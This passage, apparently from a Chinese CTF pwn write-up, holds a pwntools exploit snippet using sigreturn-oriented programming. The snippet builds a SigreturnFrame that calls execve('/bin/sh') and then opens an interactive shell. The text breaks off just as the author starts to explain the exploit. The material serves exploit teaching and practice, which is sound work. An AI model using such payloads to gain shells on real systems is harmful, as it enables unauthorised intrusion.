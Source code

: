 ```plain

binsh=l64()-0x118
leak('binsh',binsh)

sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=binsh
sigFrame.rsi=0x0
sigFrame.rdx=0x0
sigFrame.rip=syscall_ret

pl2='/bin/sh\00'*2+p64(gadget)+p64(syscall_ret)+str(sigFrame)
s(pl2)

p.interactive()
```

[![](assets/1701612132-78f8772e0433936450f38cf94f0d5db2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001603-5cea596e-3d19-1.png)

解释一下exp:
